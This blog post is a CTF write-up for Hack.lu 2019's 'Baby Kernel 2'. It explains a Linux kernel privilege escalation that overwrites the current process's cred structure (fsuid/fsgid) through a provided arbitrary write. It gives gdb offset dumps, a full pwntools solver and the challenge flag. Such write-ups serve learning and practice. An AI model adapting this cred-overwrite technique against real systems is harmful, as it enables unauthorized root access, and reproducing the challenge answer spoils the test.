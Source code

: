 ```yaml
---
layout: post
title: Intro to Kernel Pwning - Hack.lu 2019
date: 2019-11-03 19:54
summary: A great beginner Linux kernel pwn from Hack.lu 2019
categories:  CTF kernel linuk kernelpwn hacklu hack.lu
---
```


## Intro Kernel Pwn: Baby kernel 2 from [Hack.lu](https://fluxfingersforfuture.fluxfingers.net/challenges) 2019 CTF

### Challenge Summary:

Baby Kernel 2 is the second step in a series of intro kernel pwning challenges, beginning with last year's Hack.lu Baby Kernel 1. This year we are given a kernel that when ran, presents us with the following options:
1. Read from a memory address
2. Write to a memory address
3. Get our UID
4. Read a file

![kernel menu](/images/baby_kernel_2-menu.png)

Given the information we have thus far, we can assume that we need a way to gain elevated privilidges in order to read some file… maybe a flag file… ( •͡˘ _•͡˘).

### Further Analysis:

After unpacking the init file system and dumping the baby_kernel_2.ko module into a decompiler, you’ll notice that we are given a free 8-byte write anywhere in kernel land. This is triggered when using the write option in the menu.

To further understand this challenge, we must also recognize that we have System.map. The symbol table contains all of the kernel’s symbol names and their addresses. Symbols provide names of important information in a binary (functions, variables, etc.) and map these names to their location in memory. In this case, System.map provides us with the symbols for vmlinux. Most notably, current_task.

`current_task`(also referred to as `current`) is a pointer to the current executing task's [`task_struct`](http://140.120.7.21/LinuxRef/ProcMana/ProcessManaging.html). The kernel refrences each task using its task_struct. The task struct contains information about a process like its credentials and memory layout. We are specifically interested in the current process' [`cred_struct`](https://github.com/torvalds/linux/blob/master/include/linux/cred.h). If we can overwrite the current process' `cred_struct` to elevate its privilidges to root, we can read any file.

{% highlight c %}
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
	...
{% endhighlight %}

{% highlight c %}
struct cred {
	...
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	...
{% endhighlight %}

Every `task_Struct` contains a pointer to the processes's `cred_struct`. In order to accomplish overwriting the current processes's creds with our 8 byte write, we need to know the offset of the `cred_struct` in the `task_struct`. Once we know the address of the `cred_struct` we can get the offset of the privilidge ID's and overwrite them. We can figure out the offsets using a little gdbfoo:

```
(gdb) ptype /o struct task_struct
...
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
...
```

```
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
```

Now that we know all the offsets, is is trivial to overwrite the creds of the current process. For this challenge, I only needed to overwrite `fsuid` and `fsgid` in order to gain privs to read `flag`. Here is my complete solver:

{% highlight python %}
from pwn import *

conn = remote("babykernel2.forfuture.fluxfingers.net", 1337)

def read(addr):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('> ', str(hex(addr)))
    resp = conn.recvuntil("---").split()[22]
    return resp

def write(addr, val):
    conn.sendlineafter("> ",str(2))
    conn.sendlineafter("> ",str(hex(addr)))
    conn.sendlineafter("> ",str(val))
    return

def show_flag():
    conn.sendlineafter("> ",str(4))
    conn.sendlineafter("> ","flag")
    print(conn.recvuntil("}"))

#The pointer to current_task struct from System.map stored at current_task
current_task_ptr = 0xffffffff8183a040
current_task = read(current_task_ptr) #address of task_struct
log.info("current_task struct: 0x%s" % current_task)

"""
(gdb) ptype /o struct task_struct
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
"""

#Offset of cred_struct into task_struct obtained from gdb
cred_off = 1024 #ptype /o struct task 0x400
cred_struct_ptr = int(current_task, 16) + cred_off

#cred_struct location
cred_struct = int(read(cred_struct_ptr), 16)
log.info("cred_struct: 0x%x" % cred_struct)

"""
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
"""

#exploit part
log.info("Overwriting fsuid")
write(cred_struct+28, 0) #set fsuid = 0, 0 = root privilidges

log.info("Overwriting fsgid")
write(cred_struct+32, 0) #set fsgid = 0

show_flag()
{% endhighlight %}


## Summary

Overall, I thought this was a great intro kernel pwning challenge, and I would highly reccommend it to anyone wanting to try kernel pwning. The key to solving this challenge is knowing a bit about Linux kernel symbols and some GDB skills to obtain offsets. 

If you are using Ghidra you must update to a version >= 9.1. For some reason Ghidra releases below 9.1 cannot handle decompiling kernel modules.

Flag: flag{nicely_done_this_is_how_a_privesc_can_also_go}

Solver is on [github]()

### Creds
- [@Kallsyms](https://twitter.com/kallsyms)
- [@Hack.lu](https://twitter.com/hack_lu?lang=en)
